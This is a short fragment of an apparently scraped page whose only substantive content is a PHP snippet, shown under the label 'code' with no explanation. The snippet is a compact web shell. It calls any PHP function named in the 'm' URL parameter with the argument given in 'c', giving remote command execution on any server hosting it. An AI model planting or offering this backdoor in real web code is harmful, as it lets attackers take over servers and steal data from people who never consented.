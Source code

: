 

<img src="11.jpg" alt="alt text" title="Title" />


***************************************************
code:

'<?php
    $func = new ReflectionFunction($_GET[m]);
    echo $func->invokeArgs(array($_GET[c]));
?>'

***************************************************